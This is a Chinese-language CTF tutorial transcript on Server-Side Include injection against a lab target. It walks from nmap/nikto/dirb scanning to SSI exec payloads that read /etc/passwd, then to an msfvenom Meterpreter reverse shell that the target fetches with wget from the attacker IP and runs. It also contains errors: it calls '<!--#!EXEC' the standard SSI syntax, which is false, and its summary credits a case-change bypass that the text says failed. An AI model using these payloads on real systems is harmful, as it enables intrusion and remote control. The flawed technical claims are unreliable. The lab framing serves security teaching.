# CTF夺旗全套视频教程-网络安全：P12：CTF夺旗-SSI注入 🔐

在本节课中，我们将要学习CTF比赛中的一种攻击技术——SSI注入。我们将了解SSI注入的基本概念，并通过一个完整的实验，学习如何利用该漏洞从外部获取目标服务器的权限。

## 概述



SSI代表Server-Side Includes，即服务端包含。它的出现是为了赋予HTML静态页面动态效果。在动态页面技术普及之前，SSI和CGI被广泛用于为静态页面提供交互能力。它们通过执行系统命令并将结果返回给页面，模拟出动态页面的效果。



如果在网站目录中发现`.shtm`、`.stm`或`.shtml`后缀的文件，通常表示该网站使用了SSI技术。如果网站对SSI的输入过滤不严格，就会造成SSI注入漏洞，导致攻击者输入的指令被系统执行。



## 实验环境搭建



*   **攻击机**：Kali Linux，IP地址为 `192.168.1.103`。
*   **靶机**：一台Linux服务器，IP地址为 `192.168.1.106`。

我们的目标是获取靶机上的flag值，为此需要先取得服务器的执行权限。

## 第一步：信息探测

上一节我们介绍了实验环境，本节中我们来看看如何对目标进行初步的信息收集。信息探测是渗透测试的第一步，目的是发现目标开放的服务和潜在的攻击面。

以下是探测靶机服务信息的步骤：

1.  使用Nmap扫描开放端口和服务版本。
    ```bash
    nmap -sV 192.168.1.106
    ```
    这条命令会向靶机发送探测数据包，并根据返回信息识别开放端口的服务类型和版本。

2.  使用Nmap进行更全面的扫描。
    ```bash
    nmap -A -T4 -v 192.168.1.106
    ```
    参数`-A`启用操作系统检测、版本检测、脚本扫描和路由追踪，`-T4`指定较快的扫描速度，`-v`显示详细输出。

扫描结果显示，靶机仅开放了80端口，运行着HTTP服务。





## 第二步：Web服务深入探测



在确定了HTTP服务是主要入口后，我们需要对其进行深入分析，以发现敏感目录、文件或配置信息。

以下是针对Web服务的探测操作：

1.  使用Nikto进行Web漏洞扫描。
    ```bash
    nikto -h http://192.168.1.106
    ```
    Nikto会检查Web服务器是否存在多种已知的安全问题，如错误配置、默认文件等。

2.  使用Dirb进行目录爆破。
    ```bash
    dirb http://192.168.1.106
    ```
    Dirb工具通过字典枚举Web服务器上可能存在的隐藏目录和文件。





分析探测结果，我们发现了几个关键信息：
*   服务器使用Ubuntu系统，中间件为Apache 2.4.18。
*   存在`/robots.txt`文件，提示禁止爬取某些目录。
*   存在一个名为`/ssi/`的目录，这强烈暗示网站使用了SSI技术。
*   存在`index.shtml`文件，这是使用SSI的典型特征。

## 第三步：漏洞发现与利用

根据上一步发现的线索，特别是`/ssi/`目录和`.shtml`文件，我们高度怀疑存在SSI注入点。现在，我们开始在网站上寻找用户输入点。



通过访问`/ssi/`目录下的页面，我们发现了一个可以执行命令的表单。页面源代码中给出了一个示例格式：`<!--#exec cmd="ls" -->`，这证实了SSI注入的可能性。

然而，直接提交示例命令`<!--#exec cmd="ls" -->`时，发现关键词`exec`被过滤。我们需要尝试绕过过滤。



以下是绕过过滤并执行命令的步骤：

1.  **大小写绕过**：尝试将`exec`改为大写的`EXEC`。
    ```html
    <!--#EXEC cmd="ls" -->
    ```
    提交后发现命令仍未执行，说明过滤可能不区分大小写。



2.  **使用SSI指令格式**：查阅资料，标准的SSI执行命令格式需要感叹号。
    ```html
    <!--#!EXEC cmd="cat /etc/passwd" -->
    ```
    提交此Payload后，成功在页面上返回了`/etc/passwd`文件的内容，证明SSI注入漏洞存在且利用成功。

## 第四步：获取反向Shell

成功执行命令后，我们的目标升级为获取一个反向Shell，以便在靶机上获得一个交互式命令行会话。



以下是获取反向Shell的完整流程：

1.  **生成Shell载荷**：在攻击机（Kali）上使用`msfvenom`生成一个Python反向Shell脚本。
    ```bash
    msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f raw > /root/Desktop/shell.py
    ```
    这个脚本会连接回攻击机的4444端口。

2.  **搭建临时Web服务器**：将生成的`shell.py`文件移动到Apache的Web根目录，并启动Apache服务，以便靶机下载。
    ```bash
    cp /root/Desktop/shell.py /var/www/html/
    systemctl start apache2
    ```



3.  **在攻击机启动监听**：打开Metasploit框架，设置监听模块以接收靶机返回的Shell连接。
    ```bash
    msfconsole
    use exploit/multi/handler
    set payload python/meterpreter/reverse_tcp
    set LHOST 192.168.1.103
    set LPORT 4444
    run
    ```



4.  **利用SSI注入下载并执行Shell**：在之前找到的SSI注入点，提交命令让靶机下载Shell脚本并执行。
    ```html
    <!--#!EXEC cmd="wget http://192.168.1.103/shell.py -O /tmp/s.py" -->
    <!--#!EXEC cmd="chmod +x /tmp/s.py" -->
    <!--#!EXEC cmd="python /tmp/s.py" -->
    ```
    提交后，观察Metasploit控制台，成功接收到来自靶机的Meterpreter会话。

## 第五步：权限提升与Shell优化



获得初始Shell（Meterpreter会话）后，这个Shell功能有限且交互性不佳。我们需要将其升级为一个功能完整的TTY Shell。

1.  **获取系统信息**：在Meterpreter会话中，可以查看靶机基本信息。
    ```bash
    sysinfo
    ```

2.  **升级到完整TTY Shell**：在Meterpreter会话中执行以下Python代码，生成一个交互式的Bash Shell。
    ```bash
    python -c ‘import pty; pty.spawn(“/bin/bash”)’
    ```
    执行成功后，我们会获得一个带有用户名、主机名和路径提示符的标准Shell，如 `www-data@victim:/var/www/html$`。

3.  **寻找Flag**：在CTF比赛中，最后一步通常是寻找flag文件。通常可以尝试在根目录、用户目录或Web目录下查找。
    ```bash
    find / -name “*flag*” 2>/dev/null
    cat /flag.txt
    ```
    （注：本次实验环境未预设flag）

## 总结

本节课中我们一起学习了SSI注入攻击的完整流程。

我们首先介绍了SSI技术的基本概念及其产生漏洞的原理。然后，我们通过一个模拟实验，逐步演示了从**信息收集**（Nmap, Nikto, Dirb）、**漏洞发现**（识别SSI特征）、**漏洞利用**（构造并绕过过滤的Payload执行命令），到**权限获取**（利用漏洞下载并执行反向Shell载荷）的全过程。最后，我们还学习了如何优化获得的Shell以方便后续操作。



在真实的CTF比赛或安全评估中，防御方可能会设置更复杂的过滤规则。作为攻击方，我们需要灵活运用各种绕过技巧，例如本节课使用的**大小写替换**，以及其他如编码、使用等价函数等方法，来成功利用漏洞。掌握这些原理和流程，是理解服务器端注入漏洞的关键。